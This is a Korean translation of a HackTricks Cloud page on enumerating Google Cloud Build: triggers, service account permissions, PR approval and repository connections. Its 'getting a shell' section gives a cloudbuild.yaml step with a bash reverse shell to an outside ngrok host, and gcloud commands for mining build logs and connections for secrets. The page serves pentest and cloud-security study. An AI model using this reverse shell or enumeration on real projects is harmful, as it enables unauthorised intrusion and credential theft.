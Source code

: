 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 처음부터 전문가까지 배우세요!</strong></summary>

HackTricks를 지원하는 다른 방법:

- **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
- 여러분의 해킹 요령을 공유하려면 **HackTricks** 및 **HackTricks Cloud** github 저장소로 PR을 제출하세요.

</details>

## 기본 정보

Google Cloud Build는 **소프트웨어 빌드 및 릴리스 프로세스를 자동화**하는 관리형 CI/CD 플랫폼으로, **소스 코드 저장소와 통합**되며 다양한 프로그래밍 언어를 지원합니다. 개발자들은 코드를 **자동으로 빌드, 테스트 및 배포**할 수 있으며 빌드 단계와 워크플로를 사용자 정의할 수 있습니다.

각 Cloud Build 트리거는 **Cloud 저장소와 관련**이 있거나 외부 저장소(Github, Bitbucket 및 Gitlab)와 직접 연결됩니다.

{% hint style="success" %}
여기나 Cloud 저장소에서 Github/Bitbucket 토큰을 도용할 수 있는 방법을 볼 수 없었습니다. 왜냐하면 저장소가 다운로드될 때 [https://source.cloud.google.com/](https://source.cloud.google.com/) URL을 통해 액세스되며 Github는 클라이언트에 의해 액세스되지 않기 때문입니다.
{% endhint %}

### 이벤트

Cloud Build는 다음 경우에 트리거될 수 있습니다:

- **브랜치로 푸시**: 브랜치 지정
- **새 태그로 푸시**: 태그 지정
- **풀 리퀘스트**: PR을 받는 브랜치 지정
- **수동 호출**
- **Pub/Sub 메시지**: 토픽 지정
- **웹훅 이벤트**: HTTPS URL을 노출하고 요청은 비밀로 인증되어야 함

### 실행

3가지 옵션이 있습니다:

- yaml/json을 사용하여 **실행할 명령을 지정**합니다. 일반적으로: `/cloudbuild.yaml`
- 웹 콘솔 및 CLI에서 "인라인"으로 지정할 수 있는 하나
- 가장 일반적인 옵션
- 인증되지 않은 액세스에 관련이 있음
- 빌드할 **Dockerfile**
- 빌드할 **Buildpack**

### SA 권한

**서비스 계정에는 `cloud-platform` 스코프가 있으므로 모든 권한을 사용**할 수 있습니다. **SA가 지정되지 않은 경우**(제출할 때와 같이) **기본 SA** `<proj-number>@cloudbuild.gserviceaccount.com`이 **사용**됩니다.

기본적으로 권한이 부여되지 않지만 쉽게 부여할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### 승인

Cloud Build를 구성하여 빌드 실행에 대한 **승인을 요구**할 수 있습니다(기본적으로 비활성화됨).

### PR 승인

트리거가 PR인 경우 **누구나 공개 저장소에 PR을 수행**할 수 있기 때문에 **어떤 PR이든 트리거 실행을 허용하는 것은 매우 위험**할 수 있습니다. 따라서 기본적으로 실행은 소유자 및 협력자에게만 **자동으로** 이루어지며, 다른 사용자의 PR로 트리거를 실행하려면 소유자 또는 협력자가 `/gcbrun`을 코멘트해야 합니다.

<figure><img src="../../../.gitbook/assets/image (339).png" alt="" width="563"><figcaption></figcaption></figure>

### 연결 및 저장소

연결은 다음을 통해 생성할 수 있습니다:

- **GitHub:** 권한을 요청하는 OAuth 프롬프트가 표시됩니다. **Github 토큰을 가져올** 수 있는 권한을 요청하며 이는 **Secret Manager에 저장**됩니다.
- **GitHub Enterprise:** **GithubApp**을 설치하라는 요청이 표시됩니다. GitHub Enterprise 호스트에서 **인증 토큰**이 생성되어 이 프로젝트에 **Secret Manager** 시크릿으로 저장됩니다.
- **GitLab / Enterprise:** **API 액세스 토큰 및 Read API 액세스 토큰**을 제공해야 하며 이는 **Secret Manager에 저장**됩니다.

연결이 생성되면 Github 계정이 액세스할 수 있는 저장소를 **연결**할 수 있습니다.

이 옵션은 다음 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
이 방법으로 연결된 저장소는 **2세대를 사용하는 트리거에서만 사용 가능**합니다.
{% endhint %}

### 저장소 연결

이는 **`연결`**과는 다릅니다. 이는 **Github 또는 Bitbucket** 저장소에 액세스하는 **다양한** 방법을 제공하지만 **연결 객체를 생성하지 않고 저장소 객체(1세대)를 생성**합니다.

이 옵션은 다음 버튼을 통해 사용할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### 저장소

가끔 Cloud Build는 **트리거용 파일을 저장할 새로운 저장소를 생성**할 수 있습니다. 이는 예를 들어 GCP가 제공하는 예제에서 발생합니다.
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### 쉘 획득
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
클라우드 빌드 내에서 gcloud를 설치합니다:

```bash
apt-get update && apt-get install -y google-cloud-sdk
```
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### 열거

**빌드 구성 및 로그에서 민감한 정보를 찾을 수 있습니다**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 권한 상승

{% content-ref url="../gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 인증되지 않은 액세스

{% content-ref url="../gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 사후 공격

{% content-ref url="../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)이나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유하세요.**

</details>
